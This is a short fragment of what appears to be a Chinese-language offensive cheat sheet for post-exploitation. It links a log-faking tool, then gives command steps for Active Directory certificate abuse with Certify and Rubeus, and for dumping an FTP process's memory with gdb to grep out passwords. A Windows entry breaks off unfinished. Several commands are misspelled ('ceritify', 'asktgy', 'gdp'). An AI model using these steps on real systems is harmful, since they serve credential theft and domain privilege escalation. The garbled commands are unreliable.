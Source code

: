 
批注：wela链接[https://github.com/Yamato-Security/WELA](https://link.zhihu.com/?target=https%3A//github.com/Yamato-Security/WELA)

日志伪造工具flog：[https://github.com/mingrammer/flog](https://link.zhihu.com/?target=https%3A//github.com/mingrammer/flog)

### **Certificate Abuse**

域：Yes

Local Admin: Yes

操作系统: Windows

类型: Abusing Certificate

方法:

1.

`ceritify.exe request /ca:dc.domain.local\DC-CA /template:User…`

2.

`Rubeus.exe asktgy /user:CORP\itadmin /certificate:C:\cert.pfx /password:password`

### **Password Mining in Memory**

域：No

Local Admin: Yes

操作系统: Linux

类型: Enumeration & Hunt

方法:

1.  `ps -ef | grep ftp;`
2.  `gdp -p ftp_id`
3.  `info proc mappings`
4.  `q`
5.  `dump memory /tmp/mem [start] [end]`
6.  `q`
7.  `strings /tmp/mem | grep passw`

## **Password Mining in Memory**

域：No

Local Admin: Yes

操作系统: Windows

类型: Enumeration & Hunt

方法:

1.
